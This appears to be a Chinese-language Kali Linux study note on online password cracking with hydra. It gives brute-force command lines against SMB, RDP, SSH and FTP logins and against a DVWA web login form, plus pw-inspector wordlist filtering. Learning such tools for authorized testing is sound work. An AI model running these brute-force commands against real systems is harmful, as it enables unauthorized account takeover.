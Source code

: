 ## 0x02 在线破解

### hydra
> 九头蛇，砍去一个头即长出新头，后为大力神赫拉克勒斯所杀
![](/Keybird0/Kali-learning-notes/wiki/images/011/20180307-d5a4e3f5.png)

#### Windows密码破解

```
hydra -l administrator -P pass.lst smb://1.1.1.1/admin$ -vVd
hydra -l administrator -P pass.lst rdp://1.1.1.1 -t 1 -vV
```

#### Linux密码破解

```
hydra -l root -P pass.lst ssh://1.1.1.1 -vV
```

#### 其他服务密码破解

```
hydra -L user.lst -P pass.lst ftp://1.1.1.1 -s 2121 -e nsr -o p.txt -t 8
```

#### HTTP表单身份认证

```
hydra -l admin -P pass.lst 1.1.1.1 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=L in:S=index.php" -V

hydra -l admin -P pass.lst 1.1.1.1 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=L in:Login Failed" -V

/foo.php:user=^USER^&pass=^PASS^:S=success:C=/page/cookie:H=X-Foo: Foo
C:先访问指定页面取得cookie
H:指定http头
支持: https-post-form、http-get-form、https-get-form
-S:使用SSL连接
```

#### 图形化界面
> xhydra

#### pw-inspector
> 按长度和字符集筛选字典 

```
pw-inspector -i /usr/share/wordlists/nmap.lst -o p.lst -l
pw-inspector -i /usr/share/wordlists/nmap.lst -o P.lst -u
```

#### hydra的密码破解效率
> 不太稳定, 默认16个并发请求, 容易造成密码正确也识别不出, 可以-t参数指定并发
